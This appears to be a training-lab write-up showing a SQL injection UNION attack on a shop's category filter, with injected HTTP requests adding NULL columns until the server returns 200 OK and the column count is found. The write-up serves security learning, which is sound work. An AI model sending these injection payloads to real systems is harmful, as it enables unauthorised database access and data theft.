

### Lab: SQL injection UNION attack, determining the number of columns returned by the query



Clicking on the `Accessories` category results in the following HTTP request.

```
GET /filter?category=Accessories HTTP/1.1
...
```

So what happens if we add a `‘UNION+SELECT+NULL--`?

```
- Request -
GET /filter?category=Accessories'+UNION+SELECT+NULL-- HTTP/1.1
...

- Response -
HTTP/1.1 500 Internal Server Error
```

What if we add another `NULL`?

```
- Request -
GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL-- HTTP/1.1

- Response -
HTTP/1.1 500 Internal Server Error
```

How about another `NULL`?

```
- Request -
GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL,NULL-- HTTP/1.1

- Response -
HTTP/1.1 200 OK
```

Therefore, the number of columns in the table is 3.